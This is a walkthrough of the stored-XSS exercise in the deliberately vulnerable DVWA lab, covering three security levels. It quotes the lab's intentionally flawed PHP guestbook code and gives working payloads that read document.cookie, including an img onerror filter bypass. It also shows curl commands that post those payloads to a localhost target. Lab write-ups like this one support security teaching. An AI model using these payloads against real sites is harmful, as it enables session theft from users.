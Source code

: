 # DVWA - XSS (Stored)

## Description

**Vulnerability:** XSS (Stored)    
**Impact:** Leveraging XSS Scripting to get our desired data.

---

## LOW Security Level
```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```
The app just INSERT the records to database with no checks
```php
$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

So we can use `<script>alert(document.cookie)</script>` in the message input since the name has maxlength:

![Guide image](./screenshots/1.png)


## MEDIUM Security Level
This source code now has a lots of checks:
```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```
You can see in here the message input has really strict checks, the name just check the `<script>` tag so we can use the payload: `<img src=x onerror=alert(document.cookie)>`, however the UI input has maxlength so I created a `curl` command to make a POST with that payload:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/xss_s/" \
-d "txtName=<img src=x onerror=alert(document.cookie)>&mtxMessage=anything&btnSign=Sign+Guestbook" \
-b "PHPSESSID=250fd0bf01a2b824c135e0e63ad79f65;security=medium"
```

![Guide image](./screenshots/2.png)

## HIGH Security Level
The new source code:
```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```

The name input still just prevents `<script>` tag so the payload we use in MEDIUM Security Level still works:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/xss_s/" \
-d "txtName=<img src=x onerror=alert(document.cookie)>&mtxMessage=anything&btnSign=Sign+Guestbook" \
-b "PHPSESSID=250fd0bf01a2b824c135e0e63ad79f65;security=high"
```

Result:

![Guide image](./screenshots/3.png)

## Resources
- https://owasp.org/www-community/attacks/xss
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- https://www.cgisecurity.com/xss-faq.html
- https://www.scriptalert1.com/

